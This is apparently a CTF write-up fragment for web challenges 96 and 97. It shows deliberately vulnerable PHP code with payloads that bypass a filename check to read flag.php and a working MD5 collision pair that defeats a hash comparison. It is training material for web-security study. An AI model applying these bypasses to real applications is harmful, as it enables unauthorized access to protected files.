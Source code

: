 payload：?num=%20010576

Payload:   ?num=+010574



## web 96

```php
<?php

highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}
```

paylaod:?u=./flag.php

意思就是说显示当前目录下的flag.php文件



## web 97

```php
<?php


include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```

md5碰撞

payload: a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

